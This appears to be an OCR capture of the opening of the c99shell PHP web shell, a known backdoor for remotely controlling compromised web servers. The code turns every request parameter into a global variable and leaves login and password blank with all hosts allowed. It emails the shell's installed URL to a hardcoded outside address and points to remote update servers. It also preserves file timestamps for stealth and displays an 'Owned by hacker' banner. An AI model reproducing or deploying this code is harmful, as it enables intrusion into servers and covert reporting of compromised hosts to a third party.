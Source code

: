 $_REQUEST = array_merge($_COOKIE,$_GET,$_POST); 
foreach($_REQUEST as $k=&gt;$v) {if (!isset($$k)) {$$k = $v;}} 
$shver = "1.0 pRe-R3leaSe bui1d #09"; //Current version 
//CONFIGURATION AND SETTINGS 
if (!empty($unset_surl)) {setcookie("c99sh_surl"); $surl = "";} 
elseif (!empty($set_surl)) {$surl = $set_surl; setcookie("c99sh_surl",$surl);} 
else {$surl = $_REQUEST["c99sh_surl"]; //Set this cookie for manual SURL 
$to = "egyptem4n@gmail.com" ; 
$subject = "Sh3ll -&gt; Here!!" ; 
$message = "The SCRIPT have been installed into this location : http://" . $_SERVER['SERVER_NAME'] . $_SERVER['SCRIPT_NAME'] ; 
mail ($to,$subject,$message) ; 
$nscdir =(!isset($_REQUEST['scdir']))?getcwd():chdir($_REQUEST['scdir']);$nscdir=getcwd(); 
} 
$surl_autofill_include = TRUE; //If TRUE then search variables with descriptors (URLs) and save it in SURL. 
if ($surl_autofill_include and !$_REQUEST["c99sh_surl"]) {$include = "&"; foreach (explode("&",getenv("QUERY_STRING")) as $v) {$v = explode("=",$v); $name = urldecode($v[0]); $value = urldecode($v[1]); foreach (array("http://","https://","ssl://","ftp://","\\\\") as $needle) {if (strpos($value,$needle) === 0) {$includestr .= urlencode($name)."=".urlencode($value)."&";}}} if ($_REQUEST["surl_autofill_include"]) {$includestr .= "surl_autofill_include=1&";}} 
if (empty($surl)) 
{ 
 $surl = "?".$includestr; //Self url 
} 
$surl = htmlspecialchars($surl); 
$timelimit = 0; //time limit of execution this script over server quote (seconds), 0 = unlimited. 
//Authentication 
$login = ""; //login 
//DON'T FORGOT ABOUT PASSWORD!!! 
$pass = ""; //password 
$md5_pass = ""; //md5-cryped pass. if null, md5($pass) 
$host_allow = array("*"); //array ("{mask}1","{mask}2",...), {mask} = IP or HOST e.g. array("192.168.0.*","127.0.0.1") 
$login_txt = "Restricted area"; //http-auth message. 
$accessdeniedmess = "&lt;a href=\"http://ccteam.ru/releases/c99shell\"&gt;c102shell v.".$shver."&lt;/a&gt;: access denied"; 
$gzipencode = TRUE; //Encode with gzip? 
$updatenow = FALSE; //If TRUE, update now (this variable will be FALSE) 
$c99sh_updateurl = "http://ccteam.ru/update/c99shell/"; //Update server 
$c99sh_sourcesurl = "http://ccteam.ru/files/c99sh_sources/"; //Sources-server 
$filestealth = TRUE; //if TRUE, don't change modify- and access-time 
$donated_html = "&lt;center&gt;&lt;b&gt;Owned by hacker&lt;/b&gt;&lt;/center&gt;"; 
/* If you publish free shell and you wish 
add link to your site or any other information, 
put here your html. */ 
$donated_act = array(""); //array ("act1","act2,"...), if $act is in this array, display $donated_html. 
$curdir = "./"; //start folder 
//$curdir = getenv("DOCUMENT_ROOT"); 
$tmpdir = ""; //Folder for tempory files. If empty, auto-fill (/tmp or %WINDIR/temp) 
$tmpdir_log = "./"; //Directory logs of long processes (e.g. brute, scan...) 
$log_email = "user@host.tld"; //Default e-mail for sending logs 
$sort_default = "0a"; //Default sorting, 0 - number of colomn, "a"scending or "d"escending 
$sort_save = TRUE; //If TRUE then save sorting-position using cookies. 
// Registered file-types. 
//  array( 
//   "{action1}"=&gt;array("ext1","ext2","ext3",...), 
//   "{action2}"=&gt;array("ext4","ext5","ext6",...), 
//   ... 
//  ) 
$ftypes  = array( 
 "html"=&gt;array("html","htm","shtml"), 
 "txt"=&gt;array("txt","conf","bat","sh","js","bak","doc","log","sfc","cfg","htaccess"), 
